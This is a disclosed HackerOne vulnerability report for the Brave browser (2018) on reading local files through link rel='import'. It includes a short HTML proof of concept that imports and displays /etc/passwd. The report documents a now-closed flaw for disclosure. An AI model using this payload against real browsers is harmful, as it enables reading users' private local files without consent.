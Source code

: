 # Local files reading using `link[rel="import"]`

## Report Details
- **Report ID**: 375329
- **URL**: https://hackerone.com/reports/375329
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-07-02T12:25:56.922Z
- **Disclosed**: 2018-09-29T00:16:24.191Z

## Reporter
- **Username**: metnew
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: brave

## Vulnerability Information
## Summary:

HTML file could import another file using `<link rel="import">`.  Brave returns `Access-Control-Allow-Origin: *` response header for local HTML files. That leads to local files reading.

> This vulnerability makes #369218 critical.

## Products affected: 

Brave: 0.23.19 
V8: 6.7.288.46 
rev: 178c3fbc045a0cbdbe098db08307503cce952081 
Muon: 7.1.3 
OS Release: 17.6.0 
Update Channel: Release 
OS Architecture: x64 
OS Platform: macOS 
Node.js: 7.9.0 
Brave Sync: v1.4.2 
libchromiumcontent: 67.0.3396.87

## Steps To Reproduce:

PoC:
``` html
<head>
    <script>
        function show() {
            var file = link.import.querySelector('body')
            alert(file.innerHTML)
        }
    </script>
    <link id="link" href="file:///etc/passwd" rel="import" as="document" onload="show()" />
</head>
```

## Supporting Material/References:

Screencast + PoC attached.

## Impact

Local files reading is forbidden in any browser.
Also, note that this vulnerability makes  #369218 critical.

> Probably all platforms(macOS/Win/Linux) are affected.

## Attachments
- brave-read-local-files.mp4
- exploit.html
